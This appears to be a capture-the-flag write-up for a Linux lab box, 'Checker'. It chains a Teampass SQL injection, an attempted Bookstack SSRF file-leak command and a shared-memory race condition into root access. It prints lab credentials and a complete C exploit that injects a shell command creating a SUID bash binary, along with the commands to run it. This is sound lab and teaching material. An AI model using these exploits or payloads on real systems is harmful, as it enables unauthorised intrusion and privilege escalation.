

Checker
Checker was a unique Linux box that started with open ports for SSH (22), HTTP (80), and an additional web service (8080). The port 8080 hosted a Teampass password manager vulnerable to SQL injection (CVE-2023-1545), which leaked bcrypt hashes for users bob and admin.
After cracking the hash to reveal the password "cheerleader", I gained access to Teampass and discovered SSH credentials for user "reader" along with Bookstack login details. SSH access required two-factor authentication via Google Authenticator codes. While the intended path involved exploiting a blind Bookstack SSRF-LFR vulnerability (CVE-2023-6199) to leak the TOTP seed, I was unable to get this exploit working despite extensive attempts with various payloads, configurations and ideas.
For root access, I analyzed a custom hash-checker binary that the reader user could execute via sudo. Through reverse engineering with Ghidra, I discovered the binary used shared memory segments with a critical 1-second delay between writing data and processing it. This created a Time-of-Check-Time-of-Use (TOCTOU) vulnerability. I exploited this by writing a C program that poisoned shared memory segments with SQL injection payloads during the timing window. The binary's notify_user function passed unsanitized shared memory contents directly to popen(), allowing command execution. By running the exploit in a loop alongside the hash checker, I successfully injected a payload that created a SUID bash binary for root access.
User flag
Nmap scan reveals 3 open ports. Two websites on 80 and 8080, and SSH on 22.
SQL injection in Teampass
I will begin by checking the website located at port 8080.
Teampass is an open-source password manager service. I can't do anything here without credentials, so I'll search the web for any CVEs I could use.
https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612
I saved the PoC into a .sh file and ran it against Teampass.
I'll copy both hashes into a file so that I can crack them with hashcat.
bob | cheerleader
With these credentials, I can login into Teampass.
There are two items inside. Bookstack login and ssh access.
Bookstack login:
bob@checker.htb | mYSeCr3T_w1kI_P4sSw0rD
SSH access:
reader | hiccup-publicly-genesis
Since I have credentials for SSH, I will try to login into the machine.
It requires some kind of a verification code. That's my first time seeing code verification with SSH, and I don't think I can do much more here right now.
Leaking local files via Bookstack CVE
Since I also have credentials for Bookstack, I'm going to check it out at port 80.
I can create books, but there is not much interesting stuff on the website. I'll take a look at the page source.
With the newly uncovered version number, I went on to once again search for CVEs, this time for Bookstack.
https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack
I'll clone the provided repo onto my machine.
https://github.com/pwnter/php_filter_chains_oracle_exploit.git
I built this command with the data I've gathered(X-CSRF-TOKEN is labeled as "token" within the page source!)
python filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/12/save-draft' --verb PUT --parameter html --headers '{"Content-Type":"application/json","Cookie":"bookstack_session=cookie","X-CSRF-TOKEN":"token"}' --file '/etc/passwd'
After much brainstorming and many different attempts and ideas, I was unable to leak any files. I know this is the intended way because I've had success the first time I solved it.
If I ever find a way to make this work successfully again, I will update this writeup right away.
Since I cannot showcase further steps for user, I'll simply outline what was left to do after this step:
-
Determine that google authenticator is used for SSH code verification
-
Find the location of the authenticator config (via the Bookstack books and searching the web)
-
Leak the seed of the generator and input it into a TOTP website, which will show the exact code to be used, which changes every 20 seconds.
-
SSH as reader with the password and the appropriate code.
Root flag
Trying to read the check_leak SHM data
Reader can run a hash-checker script. I'll take a look at it.

It's using shared memory segments to hold data. Analysis via ipcs showed that the addresses are held for less than a second before disappearing.
I created a small bash script to confirm that the shared memory is indeed written somewhere.
I tried to read the saved memory contents in many ways, but everything is getting deleted too quickly for me to do anything more.
After I checked root, I realized that this script works only on the users from Bookstack. Even if I manage to read the password somehow, it'll be just bob and no one else.
Bob who isn't even a user on the machine! This confirms that the only thing I could achieve by (somehow) reading the memory contents would be rediscovering bob's Bookstack password which I already know.
I decided to change my approach. Instead of trying to read the memory, I'll try to "poison" as many memory addresses as possible, hoping that the script will pick one of them to save the data.
However, simply poisoning the addresses will be futile. If the called binary file is vulnerable in any way though, I should be able to adjust the poisoner payload and take advantage of that.
I'll download the ELF binary onto my machine for some reverse engineering.
scp reader@checker.htb:/opt/hash-checker/check_leak .
Reverse engineering the binary
I'll use Ghidra to decompile the binary. Starting from main, I'll go over each function to understand how it works and to search for any way to exploit it.
Analysis of the main function
It begins by setting variables from mysql environmental variables. If the credentials are missing, it errors out with "Error: Missing database credentials in environment
If the argument count is not equal to 2, it'll error out with the Usage: <USER> message.
If the username provided is longer than 20 characters, it'll error out with Error: <USER> is too long. Maximum length is 20 characters
It calls fetch_hash_from_db with the mysql credentials and the user. If the function returns 0, User not found in the database. is returned.
If the user exists, it calls check_bcrypt_in_file to check for matches with anything from the leaked hashes list.
If there are no matches found, it returns User is safe.
However, if there's a match found' it'll return Password is leaked!.
Afterwards it'll write the password hash to the shared memory address, and notify the user using the database credentials and the email from the database.
It's worth noting that there is a 1 second delay between the shm write and the notify_user call.
Lastly, It will clear the shared memory before exiting.
Analysis of the fetch_hash_from_db function
I was mistaken. This is a Teampass database, not a Bookstack one. It was an honest and easy mistake since both services had identical users.
This function pulls the hash of whichever user is passed and returns either the hash or 0.
There is an SQL injection vulnerability here, caused by the user input being passed into the query directly. However, I don't need these hashes at this point.
Analysis of the check_bcrypt_from_file function
This function takes 2 arguments. File path(1) and the password hash(2).
If it cannot open the file, it'll return 0(User is safe).
If there is a match between the hash(argument 2) and any hash from the file, it returns 1(Password is leaked!).
Analysis of the write_to_shm function
This function takes a single argument.
It seeds the RNG with current time and then generates a random number to create a shared memory segment with it.
Then it attaches to the newly created segment and checks it for errors.
It takes the time again and transforms it into a readable format. It then writes the Leaked hash detected at (time) message into the memory.
It turns out that it wasn't the hash that was being saved into shared memory, but rather this message along with the time of detection.
Lastly, it detaches from memory and returns the shared memory address.
Analysis of the notify_user function
This function takes in the 4 database credentials, and the shm address as parameters.

It gets the saved shm address from param 5. If there is no memory segment at the address to attach to, it displays No shared memory segment found for the given address:
If it cannot attach to the address, it'll show the Unable to attach to shared memory segment with ID: error.
It then checks the contents saved under that address for the Leaked hash detected string. If it's not found, it'll error out with No hash detected in shared memory.
If the contents are Leaked hash detected and > and nothing else, the binary will exit with the Malformed data in the shared memory. error.
But if there's something else as well, the contents will be shaped into a Leaked hash detected>(hash?) format, then sent straight to the SQL query and into popen(!!!).
If everything goes well, the program continues and eventually "notifies" the user by their email stored in the database.
If I can escape the query, I'll be able to send commands straight into popen for command execution!
TOCTOU with SHM poisoning
Remembering that there is a 1 second of delay between write_to_shm and notify_user functions, I can create a script that will:
-
Attach to the SHM memory address.
-
Overwrite the contents of that address to add my command.
All in the span of one second during the sleep delay.
I'll use C for this since it requires both speed and memory attachment, both of which C excels at.
#include <stdio.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <time.h>
#include <errno.h>
#include <string.h>
#define SHM_BYTES 0x400 // 1024 bytes
#define SHM_PERMISSIONS 0x3B6 // 0666 octal
#define PAYLOAD_MESSAGE "Leaked hash detected Sat 31 5:33:55 2025 > '; cp /bin/bash /tmp/privesc && chmod 4755 /tmp/privesc;#"
// Pretty colors for output
#define RED "\033[1;31m"
#define GREEN "\033[1;32m"
#define YELLOW "\033[1;33m"
#define RESET "\033[0m"
void panic(const char *msg) {
perror(msg);
exit(EXIT_FAILURE);
}
int main(void) {
printf(YELLOW "[::] Initiating shared memory injector \n" RESET);
// Seed RNG with current epoch timestamp
time_t now = time(NULL);
srand((unsigned int)now);
int entropy_spice = rand();
key_t shm_key = entropy_spice % 0xFFFFF;
printf(GREEN "[+] Generated SHM key: 0x%X\n" RESET, shm_key);
// Grab or create the shared memory segment
int shm_id = shmget(shm_key, SHM_BYTES, IPC_CREAT | SHM_PERMISSIONS);
if (shm_id == -1) {
panic(RED "[-] shmget failed");
}
// Attach to shared memory space
char *mem_view = (char *)shmat(shm_id, NULL, 0);
if (mem_view == (char *)-1) {
panic(RED "[-] shmat failed");
}
printf(GREEN "[+] Connected to shared memory.\n" RESET);
// Write payload
snprintf(mem_view, SHM_BYTES, "%s", PAYLOAD_MESSAGE);
printf(YELLOW "[::] Injecting payload into memory...\n" RESET);
// Echo what we just poisoned the SHM with
printf(GREEN "[+] Payload written:\n%s\n" RESET, mem_view);
// Clean up
if (shmdt(mem_view) == -1) {
panic(RED "[-] shmdt failed");
}
printf(YELLOW "[::] Detached from memory. Mission complete.\n" RESET);
return 0;
}
I'll compile my script with gcc -o shmpoisoner shmpoisoner.c
Then, I'll run two while true; loops in two terminals.
In the first terminal, I'll run while true; do sudo /opt/hash-checker/check-leak.sh bob; done to keep the binary running.
In the second terminal, I'll keep running my exploit with while true; do /tmp/shmpoisoner; done.
The SQL errors in the 1st terminal confirm that the injection was successful. In the 2nd terminal, privesc has been created.

Rooted!